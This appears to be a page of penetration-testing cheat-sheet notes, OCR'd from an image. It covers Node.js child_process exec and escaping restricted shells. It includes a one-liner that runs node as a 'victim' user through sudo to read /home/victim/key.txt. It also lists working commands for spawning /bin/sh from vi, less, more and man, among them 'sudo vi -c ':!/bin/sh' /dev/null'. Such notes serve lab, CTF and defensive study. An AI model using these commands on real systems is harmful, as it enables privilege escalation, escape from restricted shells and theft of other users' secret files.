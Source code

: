 ### JAVASCRIPT
- The child_process module acts as a namespace for spawn(), exec(), execFile(), and fork() functions.
- You call require("child_process") to refer to the module, and then call one of its member functions to create a new process.
- The return value is a ChildProcess object, which has members like stdin, stdout, and pid
- [DOC](https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback)

```
var exec = require('child_process').exec;
exec('[COMMAND]', function (error, stdOut, stdErr) {
console.log(stdOut);
});
```
- Note the quotes, if used in conjunction with another command
- Otherwise an error message might occur
```
sudo -u victim node -e 'var exec = require("child_process").exec; exec("cat /home/victim/key.txt", function (error, stdOut, stdErr) {console.log(st
dOut); });'
```

<br />

## RESTRICTED SHELL ESCAPE
## Info
### Common Restricted Shells
- rbash
- rzsh
- lshell (Limited Shell)
- rssh (Restricted Secure Shell)

## HowTo
### Console Editors (ed / ne / nano / pico / vim / vi)
- `:set shell=/bin/sh; shell`
- `:!/bin/sh`
- `!'/bin/sh'`
- `sudo vi -c ':!/bin/sh' /dev/null`

### Pager Commands (more / less)
- Open a file, which is long enough to invoke pager
- `cat file | more`
- Then enter `!'sh'` or `!vi` (vim editor)

### man and pinfo
- Invoke man page
- Then enter `!'sh'` or `!vi` (vim editor)

